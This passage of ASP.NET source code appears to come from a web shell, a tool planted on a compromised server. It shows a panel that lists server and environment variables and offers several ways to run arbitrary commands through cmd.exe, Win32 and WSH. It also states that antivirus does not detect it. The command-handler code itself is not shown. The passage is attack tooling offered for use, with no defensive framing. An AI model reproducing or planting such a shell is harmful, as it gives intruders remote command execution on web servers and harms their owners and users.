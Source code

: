     <td>Client IP</td>
    <td><%=CIP%></td>
  </tr>
  <tr>
    <td>User</td>
    <td><%=request.ServerVariables("HTTP_USER_AGENT")%></td>
  </tr>
</table>
<table align=center>
	<% Create_table_row_with_supplied_colors("Black", "White", "center", "Environment Variables, Server Variables") %>
	<tr>
		<td><textArea cols=50 rows=10><% output_all_environment_variables("text") %></textarea></td>
		<td><textArea cols=50 rows=10><% output_all_Server_variables("text") %></textarea></td>
	</tr>
</table>
<%
	case "cmd"
%>
<form runat="server">
  <p>[ CMD.NET for WebAdmin ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  <p> Execute command with ASP.NET account(<span class="style3">Notice: only click &quot;Run&quot; to run</span>)</p>
  <p>- This function has fixed by kikicoco.Antivirus has not detected (2007/02/27)-</p>
  Command:
  <asp:TextBox ID="cmd" runat="server" Width="300" class="TextBox" />
  <asp:Button ID="Button123" runat="server" Text="Run" OnClick="RunCMD" class="buttom"/>  
  <p>
   <asp:Label ID="result" runat="server" style="style2"/>      </p>
</form>
<%
	case "cmdw32"
%>
<form runat="server">
	<p>[ ASP.NET W32 Shell ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  	<p> Execute command with ASP.NET account using W32(<span class="style3">Notice: only click &quot;Run&quot; to run</span>)</p>
  	<%
  	Response.Write("System Dir : "+Environment.SystemDirectory +"<br><br>")
  	%>
  	CMD File:
	<asp:TextBox ID="txtCmdFile" runat="server" Width="473px" style="border: 1px solid #084B8E">C:\\WINDOWS\\system32\\cmd.exe</asp:TextBox><br><br>
  	Command:&nbsp;
	<asp:TextBox ID="txtCommand1" runat="server" style="border: 1px solid #084B8E"/>
  	<asp:Button ID="Buttoncmdw32" runat="server" Text="Run" OnClick="RunCmdW32" style="color: #FFFFFF; border: 1px solid #084B8E; background-color: #719BC5"/>  
  	<p>
    <asp:Label ID="resultcmdw32" runat="server" style="color: #0000FF"/>      
    </p>
</form>
<%
	case "cmdwsh"
%>
<form runat="server">
	<p>[ ASP.NET WSH Shell ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  	<p> Execute command with ASP.NET account using WSH(<span class="style3">Notice: only click &quot;Run&quot; to run</span>)</p>
  	Command:
	<asp:TextBox ID="txtCommand2" runat="server" style="border: 1px solid #084B8E"/>